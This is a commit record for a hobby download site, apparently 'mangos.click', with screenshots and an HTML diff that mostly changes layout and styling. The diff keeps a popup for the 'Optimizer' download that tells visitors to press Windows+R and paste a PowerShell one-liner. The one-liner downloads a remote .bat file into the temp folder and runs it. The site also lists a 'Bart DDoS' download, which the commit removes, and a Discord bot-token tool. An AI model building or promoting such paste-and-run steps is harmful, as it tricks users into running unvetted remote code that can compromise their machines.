

Before and after one commit to dariosfiles/x, a plain HTML site: page index.html in a window 1280 px wide. After the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -12,135 +12,94 @@
   <link href="https://fonts.googleapis.com/css2?family=Press+Start+2P&display=swap" rel="stylesheet">
   <script src="https://unpkg.com/lucide@latest/dist/umd/lucide.min.js"></script>
   <style>
-
-.shake {
-  animation: slightShake 0.2s;
-}
-
-@keyframes slightShake {
-  0% { transform: translateX(0); }
-  25% { transform: translateX(-1px); }
-  50% { transform: translateX(1px); }
-  75% { transform: translateX(-1px); }
-  100% { transform: translateX(0); }
-}
-
-
-/* Shadow on hover */
-.search-container:hover {
-  box-shadow: 0 0 10px rgba(255, 255, 255, 0.2), 0 4px 20px rgba(0, 0, 0, 0.6);
-  transition: box-shadow 0.3s ease;
-}
-
     * {
       cursor: url('https://files.catbox.moe/5uebbf.cur'), auto !important;
-      box-sizing: border-box;
     }
-
     body {
       margin: 0;
       padding: 0;
       font-family: 'Press Start 2P', cursive;
       background-color: #1e1e1e;
       color: white;
-      min-height: 100vh;
-      overflow-x: hidden;
+      height: 100vh;
+      overflow-y: auto;
     }
-
     .blurred {
       filter: blur(5px);
       pointer-events: none;
     }
-
     .header {
-      position: fixed;
-      top: 10px;
-      left: 10px;
-      font-size: 10px;
-      z-index: 10;
+      position: absolute;
+      top: 20px;
+      left: 20px;
+      font-size: 12px;
     }
-
     .main-content {
       display: flex;
       justify-content: center;
-      margin-top: 60px;
-      padding: 0 10px;
+      position: absolute;
+      top: 20px;
+      left: 50%;
+      transform: translateX(-50%);
       width: 100%;
     }
-
     .search-container {
       background-color: #2e2e2e;
       border-radius: 12px;
-      padding: 10px;
+      padding: 20px;
       display: flex;
       align-items: center;
-      width: 100%;
-      max-width: 500px;
       box-shadow: 0 4px 20px rgba(0, 0, 0, 0.5);
     }
-
     .search-input {
       background: none;
       border: none;
       outline: none;
       color: white;
-      font-size: 12px;
+      font-size: 16px;
       margin-left: 10px;
-      flex: 1;
       font-family: 'Press Start 2P', cursive;
     }
-
     .icon {
       color: white;
     }
-
     .boxes-container {
-    display: grid;
-    grid-template-columns: repeat(auto-fit, minmax(280px, 1fr));
+      position: absolute;
+      top: 100px;
+      left: 20px;
+      display: flex;
+      flex-direction: column;
       gap: 20px;
-    justify-items: center;
-    padding: 100px 20px 20px;
     }
-
-
     .box {
       background-color: #2e2e2e;
       border: 4px solid #000;
       padding: 20px;
       border-radius: 10px;
-      width: 100%;
-      max-width: 320px;
+      max-width: 300px;
       box-shadow: 0 0 20px rgba(0,0,0,0.5);
     }
-
     .box-title {
       font-size: 12px;
       margin-bottom: 10px;
-      text-align: center;
     }
-
     .box-description {
-      font-size: 10px;
+      font-size: 8px;
       margin-bottom: 15px;
-      text-align: center;
     }
-
     .box-button {
       background-color: #3c8527;
       color: white;
-      padding: 10px;
-      font-size: 10px;
+      padding: 8px 16px;
+      font-size: 8px;
       font-family: 'Press Start 2P', cursive;
       border: 2px solid #000;
       cursor: pointer;
-      width: 100%;
       transition: background 0.2s;
     }
-
     .box-button:hover {
       background-color: #2c651f;
     }
-
     .popup-overlay {
       position: fixed;
       top: 0;
@@ -152,45 +111,37 @@
       align-items: center;
       justify-content: center;
       z-index: 9999;
-      padding: 10px;
     }
-
     .popup {
       background-color: #2e2e2e;
       border: 4px solid #000;
-      padding: 20px;
+      padding: 30px;
       border-radius: 10px;
       text-align: center;
-      width: 100%;
       max-width: 400px;
       box-shadow: 0 0 30px rgba(0,0,0,0.7);
     }
-
     .popup-title {
-      font-size: 16px;
+      font-size: 18px;
       margin-bottom: 20px;
     }
-
     .popup-text {
       font-size: 10px;
-      margin-bottom: 20px;
+      margin-bottom: 30px;
     }
-
     .popup-button {
       background-color: #3c8527;
       color: white;
-      padding: 10px;
+      padding: 10px 20px;
       font-size: 10px;
       font-family: 'Press Start 2P', cursive;
       border: 2px solid #000;
       cursor: pointer;
       transition: background 0.2s;
     }
-
     .popup-button:hover {
       background-color: #2c651f;
     }
-
     .snowflake {
       position: fixed;
       top: -10px;
@@ -199,65 +150,20 @@
       pointer-events: none;
       z-index: 1000;
       animation: fall linear infinite;
-      font-size: 14px;
     }
-
     @keyframes fall {
       0% { transform: translateY(0); opacity: 1; }
       100% { transform: translateY(100vh); opacity: 0; }
     }
-
-    .falling-char {
-      position: fixed;
-      z-index: 9999;
-      animation: fallChar 1.5s ease-out forwards;
-      color: white;
-      font-family: 'Press Start 2P', cursive;
-      pointer-events: none;
-    }
-
-    @keyframes fallChar {
-      0% {
-        transform: translateY(0) rotate(0deg);
-        opacity: 1;
-      }
-      100% {
-        transform: translateY(100vh) rotate(360deg);
-        opacity: 0;
-      }
-    }
-
-    @media (max-width: 480px) {
-      .header { font-size: 8px; }
-      .popup-title { font-size: 14px; }
-      .popup-text { font-size: 9px; }
-      .box-description,
-      .box-button,
-      .popup-button,
-      .search-input { font-size: 8px; }
-    }
-
-
   </style>
 </head>
 <body>
-
-<!-- Tutorial Popup -->
-<div id="tutorial-popup" class="popup-overlay" style="display: none;">
-  <div class="popup">
-    <div class="popup-title">tutorial</div>
-    <div class="popup-text">press windows + r and paste the code, then hit enter</div>
-    <input id="copy-code" type="text" readonly value='cmd /c "powershell -Command iwr https://raw.githubusercontent.com/dariosfiles/mangosclick-files/refs/heads/main/opt.bat -OutFile %temp%\opt.bat && start cmd /k %temp%\opt.bat"' onclick="this.select();document.execCommand("copy");">
-    <button class="popup-button" onclick="closeTutorial()">okay!</button>
-  </div>
-</div>
-
+  <div id="content">
     <div class="header">mangos.click</div>
-
     <div class="main-content">
       <div class="search-container">
         <i data-lucide="search" class="icon"></i>
-      <input type="text" class="search-input" placeholder="search..." maxlength="29" oninput="filterBoxes(this.value)" />
+        <input type="text" class="search-input" placeholder="search..." oninput="filterBoxes(this.value)" />
       </div>
     </div>
 
@@ -273,9 +179,9 @@
         <a href="https://files.catbox.moe/c6ka9t.rar" target="_blank" class="box-button">Download</a>
       </div>
       <div class="box">
-      <div class="box-title">Bart DDoS</div>
-      <div class="box-description">This only pings!</div>
-      <a href="https://files.catbox.moe/qth67q.zip" target="_blank" class="box-button">Download</a>
+        <div class="box-title">Discord Bot Message Sender</div>
+        <div class="box-description">Sends message through an .exe (Needs bot token) (Unofficial! Suggested by users)</div>
+        <a href="https://files.catbox.moe/1k2qid.zip" target="_blank" class="box-button">Download</a>
       </div>
       <div class="box">
         <div class="box-title">Optimizer</div>
@@ -283,28 +189,48 @@
         <button class="box-button">Download</button>
       </div>
     </div>
+  </div>
 
+  <!-- Welcome Popup -->
   <div id="popup" class="popup-overlay">
     <div class="popup">
       <div class="popup-title">welcome</div>
-      <div class="popup-text">welcome to my website! join the discord to support me.</div>
-      <button class="popup-button" onclick="closePopup()">enter</button>
+      <div class="popup-text">welcome to my website!</div>
+      <button class="popup-button" onclick="closePopup()">okay!</button>
+    </div>
+  </div>
+
+  <!-- Tutorial Popup -->
+  <div id="tutorial-popup" class="popup-overlay" style="display: none;">
+    <div class="popup">
+      <div class="popup-title">tutorial</div>
+      <div class="popup-text">press windows + r and paste the code, then hit enter</div>
+      <input id="copy-code" type="text" readonly value='cmd /c "powershell -Command iwr https://raw.githubusercontent.com/dariosfiles/mangosclick-files/refs/heads/main/opt.bat -OutFile %temp%\opt.bat && start cmd /k %temp%\opt.bat"' style="width: 100%; font-size: 8px; font-family: 'Press Start 2P', cursive; padding: 8px; margin-bottom: 20px; text-align: center; border: 2px solid #000; background-color: #1e1e1e; color: white;" onclick="this.select();document.execCommand('copy');">
+      <button class="popup-button" onclick="closeTutorial()">okay!</button>
     </div>
   </div>
 
   <audio id="popup-sound" src="https://myinstants.com/media/sounds/bow_shoot.mp3"></audio>
 
   <script>
+    window.addEventListener("DOMContentLoaded", () => {
+      lucide.createIcons();
+      document.getElementById('content').classList.add('blurred');
 
-function showTutorial() {
-  document.getElementById('tutorial-popup').style.display = 'flex';
-const searchInput = document.querySelector('.search-input');
-searchInput.addEventListener('input', () => {
-  searchInput.classList.remove('shake');
-  void searchInput.offsetWidth; // force reflow to restart animation
-  searchInput.classList.add('shake');
+      document.querySelectorAll('.box-button').forEach(btn => {
+        if (btn.innerText.toLowerCase().includes('download')) {
+          const title = btn.closest('.box').querySelector('.box-title').innerText.toLowerCase();
+          if (title.includes('optimizer')) {
+            btn.addEventListener('click', showTutorial);
+          }
+        }
       });
-  document.getElementById('content').classList.add('blurred');
+    });
+
+    function closePopup() {
+      document.getElementById('popup-sound').play();
+      document.getElementById('popup').style.display = 'none';
+      document.getElementById('content').classList.remove('blurred');
     }
 
     function closeTutorial() {
@@ -312,36 +238,9 @@ function closeTutorial() {
       document.getElementById('content').classList.remove('blurred');
     }
 
-// Automatically attach the popup event to the Optimizer box
-window.addEventListener("DOMContentLoaded", () => {
-  document.querySelectorAll('.box-button').forEach(btn => {
-    const title = btn.closest('.box')?.querySelector('.box-title')?.innerText.toLowerCase();
-    if (btn.innerText.toLowerCase().includes('download') && title?.includes('optimizer')) {
-      btn.addEventListener('click', showTutorial);
-    }
-  });
-});
-
-    lucide.createIcons();
-
-    document.addEventListener('DOMContentLoaded', () => {
-      document.getElementById('popup').style.display = 'flex';
-
-      // Snow effect
-      setInterval(() => {
-        const snow = document.createElement('div');
-        snow.className = 'snowflake';
-        snow.innerHTML = '❄';
-        snow.style.left = Math.random() * 100 + 'vw';
-        snow.style.animationDuration = (Math.random() * 3 + 2) + 's';
-        document.body.appendChild(snow);
-        setTimeout(() => snow.remove(), 5000);
-      }, 200);
-    });
-
-    function closePopup() {
-      document.getElementById('popup-sound').play();
-      document.getElementById('popup').style.display = 'none';
+    function showTutorial() {
+      document.getElementById('tutorial-popup').style.display = 'flex';
+      document.getElementById('content').classList.add('blurred');
     }
 
     function filterBoxes(query) {
@@ -352,16 +251,19 @@ window.addEventListener("DOMContentLoaded", () => {
         const description = box.querySelector('.box-description').innerText.toLowerCase();
         box.style.display = (title.includes(query) || description.includes(query)) ? 'block' : 'none';
       });
+    }
 
-      if (query.length >= 29) {
-        const span = document.createElement('span');
-        span.className = 'falling-char';
-        span.style.left = Math.random() * window.innerWidth + 'px';
-        span.textContent = query.charAt(query.length - 1);
-        document.body.appendChild(span);
-        setTimeout(() => span.remove(), 2000);
+    function createSnowflake() {
+      const snowflake = document.createElement('div');
+      snowflake.classList.add('snowflake');
+      snowflake.style.left = Math.random() * window.innerWidth + 'px';
+      snowflake.style.animationDuration = 2 + Math.random() * 3 + 's';
+      snowflake.style.fontSize = Math.random() * 10 + 10 + 'px';
+      snowflake.innerText = '❄';
+      document.body.appendChild(snowflake);
+      setTimeout(() => snowflake.remove(), 5000);
     }
-    }
+    setInterval(createSnowflake, 200);
   </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
